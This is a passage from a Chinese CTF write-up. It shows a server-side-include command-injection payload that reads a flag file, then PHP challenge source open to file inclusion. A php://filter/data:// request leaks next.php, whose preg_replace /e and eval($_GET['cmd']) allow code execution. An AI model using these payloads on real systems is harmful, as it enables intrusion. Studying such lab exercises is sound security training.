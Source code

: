在网站根目录下找到文件`flag_990c66bf85a09c664f0b6741840499b2`
最终payload为
```html
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
```


# \<BJDCTF2020>ZJCTF，不过如此

打开题目，为源码
```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```
显然需要利用伪协议

`/?text=data://text/plain;base64,SSBoYXZlIGEgZHJlYW0=&file=php://filter/read=convert.base64-encode/resource=next.php`

对回显内容解码，得到

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```
